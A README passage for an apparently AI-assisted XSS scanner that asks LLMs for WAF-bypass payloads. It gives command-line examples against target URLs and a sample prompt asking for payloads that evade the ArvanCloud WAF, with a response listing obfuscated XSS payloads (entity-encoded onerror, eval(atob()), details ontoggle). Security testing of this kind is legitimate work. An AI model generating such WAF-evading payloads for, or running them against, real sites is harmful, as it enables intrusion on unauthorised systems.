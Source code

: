 ## 📚 Practical Examples

### 1. Simple Scan with AI
```bash
python xss_hunter.py \
  -u "http://testphp.vulnweb.com/search.php?test=query" \
  --ai gemini \
  --api-key "YOUR_KEY"
```

### 2. Complete Scan with Verbose Output
```bash
python xss_hunter.py \
  -u "http://example.com/page?id=1&lang=en" \
  --ai openai \
  --api-key "YOUR_KEY" \
  -v \
  --scan-forms
```

### 3. Using Ollama with Custom Model
```bash
python xss_hunter.py \
  -u "http://example.com/search?q=test" \
  --ai ollama \
  --ai-model codellama \
  --ollama-url "http://localhost:11434"
```

### 4. Testing Cloudflare-Protected Site
```bash
python xss_hunter.py \
  -u "https://site-with-cloudflare.com/search?q=test" \
  --ai claude \
  --api-key "YOUR_KEY" \
  -v
```

## 🔧 How It Works

### 1. Environment Detection
```
URL → CDN Detection → Context Analysis → WAF Fingerprinting
```

### 2. AI Payload Generation
```python
AI Prompt:
"Generate XSS payloads to bypass ArvanCloud WAF
Context: HTML injection
Techniques: encoding, obfuscation, HTML5 elements, rare handlers..."

AI Response:
[
  "<img src=x onerror=\"&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;\">",
  "<svg/onload=eval(atob('YWxlcnQoMSk='))>",
  "<details open ontoggle=alert(1)>",
  ...
]
```
